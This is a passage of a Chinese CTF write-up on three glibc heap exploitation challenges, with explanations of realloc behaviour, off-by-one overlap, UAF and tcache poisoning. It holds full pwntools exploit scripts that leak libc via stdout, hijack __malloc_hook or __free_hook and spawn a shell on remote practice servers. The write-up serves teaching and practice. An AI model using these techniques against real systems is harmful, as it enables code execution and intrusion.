> **利用off by one(null)先打一个堆块重叠，然后在bss段上留下两个spy chunk的地址**，将其中一个释放掉进入fast bin中，那么此时bss段上还有一个spy chunk的地址。但此时的unsorted bin的地址已经低于了spy chunk的地址，那就将unsorted bin中的堆块都申请回来。然后再次利用off by one(null)做一个堆块重叠，这次**将merged chunk申请回来后，unsorted bin的fd指针就自然落到了spy chunk的fd指针上(别忘了此时这个堆块也位于fastbin中)，这样unsorted bin中的fd指针就落到了fast bin中**，同时bss段上仍然存在一个spy chunk的地址，这样编辑该堆块就可以控制unsorted bin中的fd指针，此时的size是unsorted bin范围里的大size(无法直接将其申请出来)，此时我们应该去将merged chunk释放掉，然后unsorted bin向上合并(向低地址合并)，而原本spy chunk的fd并不会消失，然后再次申请一个len(merged chunk)+0x10+2 大小的chunk，这样往这个新chunk写入数据的时候，就可以控制spy chunk的size，顺便还能把spy chunk的fd(也就是main_arena+88)的后两字节给修改到stdout结构体上方。

#### EXP:
[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)
```py
from tools import *

context.log_level='debug'
p,e,libc=load('a')

d_a=0xF1B
d_d=0xF27
d_e=0xF3f
def add(size,content,choice=1):
    p.sendlineafter('5.exit\n',str(1))
    p.sendlineafter('Input the size:\n',str(size))
    if choice:
        p.sendafter('Input the content:\n',content)
    else:
        p.sendafter('Input the content:',content)

    
def edit(index,size,content,choice=1):
    p.sendlineafter('5.exit\n',str(4))
    p.sendlineafter('Input the index:\n',str(index))
    p.sendlineafter('Input size:\n',str(size))
    if choice:
        p.sendafter('Input new content:\n',content)
    else:
        p.sendafter('Input new content:',content)
    
def delete(index):
    p.sendlineafter('5.exit\n',str(2))
    p.sendlineafter('Input the index:\n',str(index))
    p.recvuntil('Delete success\n')
    
def pwn():
    add(0x80,'a')#0
    add(0x68,'b')#1
    add(0xf0,'c')#2
    add(0x60,'d')#3


    delete(0)
    edit(1,0x68,b'a'*0x60+p64(0x100))

    delete(2)#merge succeeded


    add(0x80,'a')#4
    add(0x68,'a')#5
    delete(1)
    add(0xf0,'a')

    #add(0x100,'a')
 
    delete(0)
    edit(2,0x68,b'a'*0x60+p64(0x70+0x90))
    delete(1)
    #debug(p,'pie',d_d,d_a,d_e,0xB64)   
    add(0x80,'a')

    delete(0)
    add((0x80+0x10+2),p64(0)*17+p64(0x71)+b'\xdd\x25')

    add(0x68,'a')

    add(0x59,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x60',0)
    leak_libc=u64(p.recv(6).ljust(8,b'\x00'))
    log_addr('leak_libc')
    libc_base=leak_libc-0x3c56a4
    log_addr('libc_base')
    malloc_hook=libc_base+libc.symbols['__malloc_hook']
    one_gadget=search_og(3)+libc_base
    log_addr('one_gadget')
    delete(1)
    edit(2,0x68,p64(malloc_hook-0x23))

    add(0x60,'a')
    add(0x60,b'\x00'*0x13+p64(one_gadget))

    delete(1)

    p.sendlineafter('5.exit\n',str(1))
    p.sendlineafter('Input the size:\n',str(0x60))
    p.interactive()

while 1:
    p=remote('node4.buuoj.cn',29269)
    try:
        pwn()
    except:
        p.close()
```


## TWCTF_online_2019_asterisk_alloc

### 收获与总结：

这道题主要就是realloc函数的妙用，学到了关于这个函数很多新知识。这个函数会根据参数的不同来实现不同的功能，具体情况如下：

> realloc(ptr,size)函数
>
> 当size不合法，比如-1时，realloc函数就会返回NULL。
>
> 当size为0且ptr存在时，就会执行free(ptr)且返回NULL
>
> 当size正常且ptr不存在时，就会执行malloc(ptr)
>
> 当size正常且ptr存在时，这就涉及到了两种情况，第一种是size大于了ptr指向堆块的size，这种情况先判断ptr指向的堆块能否与top chunk或者位于高地址且free状态的堆块合并，如果合并后二者大小满足size则进行合并。如果不能合并的话再去申请一块新的内存，将原来的数据拷贝过来，再释放之前的堆块。第二种是size小于了ptr指向堆块的size，这种情况会留下size大小的堆块，将剩余部分的堆块给释放掉。

### 保护策略：



### 漏洞分析：




free的时候没有将指针置空，存在UAF漏洞。当UAF配上2.27-3ubuntu1这个版本，实在是舒服至极，因为我们可以直接使用tcache dup。同时这道题保护为FULL RELRO还没有打印函数，那就可以基本确定打IO leak了。

### 程序简单分析：

这道题有一点点特殊，没有edit函数没有show函数。但是add函数里存在三个申请内存的函数，分别是malloc calloc realloc函数。通过观察add和delete函数的代码，发现malloc和calloc函数只能用一次，因此这道题只能将目光放到realloc函数上。realloc函数对于参数的不同，自身也有很多不同的功能（文章开始已经说明了）

这道题的核心点并不是在于怎么将unsorted bin中的fd指针给弄到tcachebin上，这一点有好几种方法都可以，难点是不太好编辑这个unsorted bin中的fd指针。这里采用的方法是申请一个大堆块A，然后再用realloc函数申请一个小堆块B(要保证A_size-B_size>0x80,让其满足释放后可以进入unsorted bin的大小)，由于堆块B的size小于A，这样就保留堆块B大小的size，将堆块A的剩余部分(堆块C)释放掉。然后释放八次堆块C，这样C就进入了unsorted bin中，然后我们执行realloc(ptr_B,sizeof(堆块A))，此时的效果就是将堆块C申请回来与堆块B合并成为了堆块A，而我们的数据就可以去正常编辑原本堆块C的unsorted bin的fd指针了。

剩下就是常规操作打一个tcache dup+poisoning将free_hook申请出来最后释放掉存有/bin/sh字符串的堆块了。

整个过程就在于一个realloc函数的妙用，因为我们要不断的改变并控制ptr_r那个值，所以经常穿插将其size设置为0或者-1。

### 调试过程：

下图为free掉一个堆块八次，然后unsorted bin中的fd指针就出现到了tcachebin中




这部分的exp如下：

```py
    add_r(0x100,'aaaaaaaaa')#这是大堆块	
    add_r(0x40,'bbbb')#执行完这行代码，上面的这个大堆块就变成了0x50的可用堆块和0xc0的free状态堆块
    add_r(0,'')#不过在这步的时候0x50这个堆块也被释放了
    add_r(0x20,'prevent chunk')
    add_r(0,'')
    add_r(0xb0,'a')
    for i in range(7):
        delete('r')
    add_r(0,'')
```


接着我们要先控制ptr_r的值为0x50堆块的那个地址，所以我们先将其申请回来，然后我们再申请0x100这个大堆块，这样realloc函数就会向下合并(向高地址合并)。





因为合并后可以写入0x100的数据，因此我们就可以直接控制堆块的fd指针，将其改为stdout结构体地址。

这步的exp为：

```py
add_r(0x40,'sss')
add_r(0x100,p64(0)*9+p64(0xc1)+b'\x60\xc7')
```


然后剩下的部分就是常规操作的tcache dup+tcache poisoning了。**要注意的是需要穿插realloc(ptr_r,-1)来控制ptr_r为空，再进行realloc时才是malloc函数。否则无法正常完成tcache poisoning。**

剩下这部分exp为：

```py
    add_r(0,'')
    
    add_r(0xb0,'a')
    add_m(0xb0,p64(0xfbad1887)+p64(0)*3+b'\x00')
    leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    log_addr('leak_libc')
    libc_base=leak_libc-0x3ed8b0
    free_hook=libc_base+libc.symbols['__free_hook']
    sys_addr=libc_base+libc.symbols['system']
    log_addr('libc_base')
    add_r(0,'')
    
    add_r(0x30,'a')
    delete('r')
    add_r(0,'')
    add_r(0x30,p64(free_hook))
    add_r(-1,'')
    add_r(0x30,p64(0xdeadbeef))
    add_r(-1,'')
    add_r(0x30,p64(sys_addr))
    add_c(0x10,'/bin/sh\x00')
    delete('c')
    p.interactive()
```

最后放一下完整的exp
[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)
### EXP:

```py
from tools import *
#p,e,libc=load('a')
e=ELF('./a')
libc=ELF('/home/hacker/Desktop/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc-2.27.so')
context.log_level='debug'

def add_m(size,content):
    p.sendlineafter('Your choice: ',str(1))
    p.sendlineafter('Size: ',str(size))
    p.sendafter('Data: ',content)
    

def add_c(size,content):
    p.sendlineafter('Your choice: ',str(2))
    p.sendlineafter('Size: ',str(size))
    p.sendlineafter('Data: ',content)

def add_r(size,content):
    p.sendlineafter('Your choice: ',str(3))
    p.sendlineafter('Size: ',str(size))
    p.sendafter('Data: ',content)

def delete(Which):
    p.sendlineafter('Your choice: ',str(4))
    p.sendlineafter('Which: ', str(Which))


def pwn():
    add_r(0x100,'aaaaaaaaa')
    add_r(0x40,'bbbb')
    add_r(0,'')
    add_r(0x20,'prevent chunk')
    add_r(0,'')
    

    
    add_r(0xb0,'a')
    

    for i in range(7):
        delete('r')
    
    add_r(0,'')
    add_r(0x40,'sss')
    
    
    add_r(0x100,p64(0)*9+p64(0xc1)+b'\x60\xc7')
    add_r(0,'')
    #debug(p,'pie',0xDD0,0xDD7,0xdde,0xde5)
    add_r(0xb0,'a')
    add_m(0xb0,p64(0xfbad1887)+p64(0)*3+b'\x00')
    leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    log_addr('leak_libc')
    libc_base=leak_libc-0x3ed8b0
    free_hook=libc_base+libc.symbols['__free_hook']
    sys_addr=libc_base+libc.symbols['system']
    log_addr('libc_base')
    add_r(0,'')
    
    add_r(0x30,'a')
    delete('r')
    add_r(0,'')
    add_r(0x30,p64(free_hook))
    add_r(-1,'')
    add_r(0x30,p64(0xdeadbeef))
    add_r(-1,'')
    add_r(0x30,p64(sys_addr))
    add_c(0x10,'/bin/sh\x00')
    delete('c')
    pause()
    p.interactive()
    
#pwn()

while 1:
    try:
        p=remote('node4.buuoj.cn',27177)
        #p=process('./a')
        pwn()
    except:
        p.close()
```


## roarctf_2019_realloc_magic

### 保护策略：




这道题和上面那道题基本上一模一样，思路啥的也都一样。具体就不再放调试的图片了。具体的过程写到exp的注释里了。

一句话总结这题和上面那道题就是利用realloc向下合并的漏洞在tcachebin中踩出unsorted bin的fd指针。

### EXP:
[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)
```py
from tools import *
p,e,libc=load('a')
#e=ELF('./a')
#libc=ELF('/home/hacker/Desktop/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc-2.27.so')
context.log_level='debug'

def add(size,content):
    p.sendlineafter('>> ',str(1))
    p.sendlineafter('Size?\n',str(size))
    p.sendafter('Content?\n',content)
    
def delete():
    p.sendlineafter('>> ',str(2))

def pwn():
    add(0x100,'a')#先申请一个大堆块A
    add(0,'')#然后realloc申请size为0的堆块，置空其指针
    add(0x20,'a')#申请一个用来防止合并的小堆块
    
    add(0,'')#realloc申请size为0的堆块，置空其指针
    add(0x100,'b')#因为刚才申请size为0的堆块的时候，这个堆块A被释放了，现在再申请回来
    add(0x70,'s')#此时堆块A变成了使用状态的堆块B+空闲状态的堆块C 堆块B为0x70 堆块C为0x80
    add(0,'a')#置空指针
    add(0x80,'uuuu')#将堆块C申请出来
    for i in range(7):
        delete()
    add(0,'a')#上面释放了堆块C七次，加上这一次，堆块C成功进入了unsorted bin中
    
    add(0x70,'a')#将堆块B申请回来
    add(0x100,p64(0x0)*15+p64(0x81)+b'\x60\x87')#利用realloc函数，向下合并空闲堆块，至此堆块A回来了，我们向堆块A写入数据就可以编辑原本堆块C的fd指针，从而将其改写为stdout结构体地址
    #上面步骤最核心的地方是这个0x81，本来这个位置的堆块C的实际大小为0x91，但如果我们不修改它，之后的tcache dup+tcache poisoning是没法进行的，必须要破坏它的size，才能保证下面步骤的正确进行。
    #debug(p,'pie',0xba2,0xbae,0xA76)
    add(0,'')
    add(0x80,'a')
    add(0,'')

    add(0x80,p64(0xfbad1887)+p64(0)*3+b'\x00')#将stdout结构体申请了出来
    leak_libc=u64(p.recvuntil(b'\x7f',timeout=1)[-6:].ljust(8,b'\x00'))
    log_addr('leak_libc')
    libc_base=leak_libc-0x3ed8b0

    log_addr('libc_base')
    sys_addr=libc_base+libc.symbols['system']
    free_hook=libc_base+libc.symbols['__free_hook']
    
    p.sendlineafter('>> ',str(666))#清空ptr指针，因为此时的ptr指针就是stdout结构体地址，如果对这个地址进行释放的话，程序会崩溃，因此我们需要用唯一的机会将其置零
    
    #接下来就是重复上面的步骤 tcache dup+tcache poisoning 往free_hook中写入system地址
    add(0x100,'a')
    add(0x60,'a')
    add(0,'')
    add(0x90,'a')
    for i in range(7):
        delete()
    add(0,'')
    add(0x60,'a')
    
    add(0x90,p64(0)*13+p64(0x91)+p64(free_hook-8))
    add(0,'')
    add(0x90,'a')
    add(0,'')

    add(0x90,b'/bin/sh\x00'+p64(sys_addr))
    delete()
    p.interactive()
#pwn()
while 1:
    try:
        p=remote('node4.buuoj.cn',25279)
        #p=process('./a')
        pwn()    
    except:
        p.close()
```

